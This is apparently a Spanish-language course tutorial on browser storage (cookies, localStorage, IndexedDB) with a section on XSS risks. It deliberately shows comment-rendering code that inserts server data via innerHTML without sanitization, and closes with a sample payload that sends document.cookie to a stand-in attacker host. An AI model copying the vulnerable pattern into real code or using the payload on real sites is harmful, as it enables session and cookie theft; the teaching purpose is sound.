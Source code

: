 # Almacenamiento en el Lado del Cliente

## Cookies

Las cookies son pequeños fragmentos de datos almacenados en el navegador del usuario. Son útiles para almacenar información persistente que debe enviarse con cada solicitud HTTP al servidor, como sesiones de usuario.

```javascript
document.cookie = "username=John Doe; expires=Thu, 18 Dec 2021 12:00:00 UTC; path=/;";
```

En este ejemplo:
1. **Creamos una cookie** llamada `username` con el valor `John Doe`.
2. **Establecemos una fecha de expiración** para la cookie.
3. **Definimos el `path`** para especificar la ruta en la que la cookie está disponible.

### Manipular Cookies

```javascript
var x = document.cookie;  // Leer todas las cookies
document.cookie = "username=John Smith; expires=Thu, 18 Dec 2021 12:00:00 UTC; path=/;";  // Modificar una cookie
document.cookie = "username=; expires=Thu, 01 Jan 1970 00:00:00 UTC; path=/;";  // Borrar una cookie
```

En este ejemplo:
1. **Leemos todas las cookies** disponibles.
2. **Modificamos la cookie `username`**.
3. **Borramos la cookie `username`** estableciendo una fecha de expiración pasada.

Para una gestión más avanzada de cookies, se recomienda utilizar las funciones proporcionadas por la W3C: [W3Schools - Cookies](https://www.w3schools.com/js/js_cookies.asp).

El servidor puede enviar cookies en las respuestas HTTP sin necesidad de intervención de JavaScript. Esta técnica es común en lenguajes como PHP para gestionar sesiones. Además, existen las cookies **HttpOnly**, un tipo especial de cookie con un nivel de seguridad más alto. Estas cookies están diseñadas para ser inaccesibles desde el lado del cliente, lo que significa que no pueden ser leídas ni modificadas mediante JavaScript u otros scripts en el navegador. Su manejo está restringido exclusivamente al servidor, lo que las hace más seguras frente a ataques como el **Cross-Site Scripting (XSS)**.

## LocalStorage

LocalStorage permite almacenar datos en el navegador de forma persistente. Los datos persisten incluso después de cerrar el navegador.

```javascript
// Guardar
localStorage.setItem("lastname", "Smith");
// Obtener
var lastname = localStorage.getItem("lastname");
// Borrar
localStorage.removeItem("lastname");
```

En este ejemplo:
1. **Guardamos un valor** con la clave `lastname` en LocalStorage.
2. **Recuperamos el valor** almacenado usando la clave `lastname`.
3. **Eliminamos el valor** asociado a la clave `lastname`.

## IndexedDB

IndexedDB es una API de bajo nivel para almacenar grandes cantidades de datos estructurados. Es una base de datos transaccional y asíncrona que permite almacenar archivos y realizar búsquedas avanzadas.

- **Hasta 50MB** de almacenamiento.
- **API asíncrona** para operaciones de lectura y escritura.
- **Transaccional** para garantizar la integridad de los datos.
- **Más compleja** que LocalStorage.

### Ejemplo Básico de IndexedDB

IndexedDB es más compleja de manejar que LocalStorage o cookies, pero ofrece muchas más capacidades. Aquí presentamos un ejemplo muy básico para ilustrar su uso:

```javascript
let request = indexedDB.open("myDatabase", 1);

request.onupgradeneeded = function(event) {
  let db = event.target.result;
  let objectStore = db.createObjectStore("customers", { keyPath: "id" });
  objectStore.createIndex("name", "name", { unique: false });
  objectStore.createIndex("email", "email", { unique: true });
};

request.onsuccess = function(event) {
  let db = event.target.result;
  let transaction = db.transaction(["customers"], "readwrite");
  let objectStore = transaction.objectStore("customers");
  let request = objectStore.add({ id: 1, name: "John Doe", email: "john.doe@example.com" });

  request.onsuccess = function(event) {
    console.log("Customer added to the database");
  };

  request.onerror = function(event) {
    console.log("Error adding customer: ", event.target.error);
  };
};
```

En este ejemplo:
1. **Abrimos una conexión a IndexedDB** y, si es la primera vez, se crea o actualiza la base de datos.
2. **Definimos un `objectStore`** para almacenar datos de clientes con un índice para `name` y `email`.
3. **Añadimos un cliente** a la base de datos dentro de una transacción y manejamos los eventos de éxito y error.

## Seguridad

Una de las mayores amenazas para localStorage y sessionStorage es el Cross-Site Scripting (XSS). En un ataque XSS, un atacante inyecta scripts maliciosos en una aplicación web, que luego pueden ejecutarse en el navegador del usuario. Si esos scripts tienen acceso a localStorage, pueden leer datos sensibles o modificar los datos almacenados.

No se debe almacenar datos sensibles, como credenciales, tokens de autenticación o información personal confidencial, en estos mecanismos de almacenamiento. Es preferible utilizar soluciones más seguras en el servidor o emplear cookies con restricciones de acceso, como HttpOnly y Secure.

Para reducir el riesgo de ataques de Cross-Site Scripting (XSS), es esencial validar y sanitizar cualquier dato antes de almacenarlo. Esto evita la ejecución de código malicioso en el navegador del usuario y protege la integridad de la información.

Si es necesario almacenar datos de manera temporal, se recomienda establecer un mecanismo de expiración para eliminarlos automáticamente después de un tiempo determinado. De este modo, se limita la exposición de la información y se refuerza la seguridad.

Con los tokens que vamos a usar en este curso es necesarios guardarlos, pero será mejor en `sessionStorage` para que se pierda al cerrar el navegador o mediante mecanismos de expiración y de sanitización.

Imaginemos un formulario como este:

```html
<form id="commentForm">
        <label for="comment">Comentario:</label><br>
        <textarea id="comment" name="comment" required></textarea><br>
        <button type="submit">Enviar</button>
    </form>
```

Y que después hacemos algo tan inocente como guardar el comentario en la base de datos y mostrarlo así:

```javascript
    const form = document.querySelector("#commentForm");
    const commentsList = document.querySelector("#commentsList");

        // Enviar comentario al servidor
    form.addEventListener("submit", async function(event) {
        event.preventDefault();
        const commentText = document.querySelector("#comment").value;
        const response = await fetch("https://jsonplaceholder.typicode.com/comments", {
                method: "POST",
                headers: { "Content-Type": "application/json" },
                body: JSON.stringify({ body: commentText })
            });
        });

    // Recuperar comentarios desde el servidor (sin sanitización)
    async function fetchComments() {
        const response = await fetch("https://jsonplaceholder.typicode.com/comments?_limit=5");
        const comments = await response.json();

        commentsList.innerHTML = "";

        comments.forEach(comment => {
                const li = document.createElement("li");
                li.innerHTML = comment.body; // ⚠️ XSS: Usar innerHTML permite ejecutar scripts maliciosos
                commentsList.appendChild(li);
         });
        }
        // Cargar comentarios al iniciar
        fetchComments();
```

El atacante podría poner un comentario con este contenido exacto, incluidas las etiquetas:

```html
<script>
    fetch("https://malicioso.com/robar?data=" + document.cookie);
</script>
```

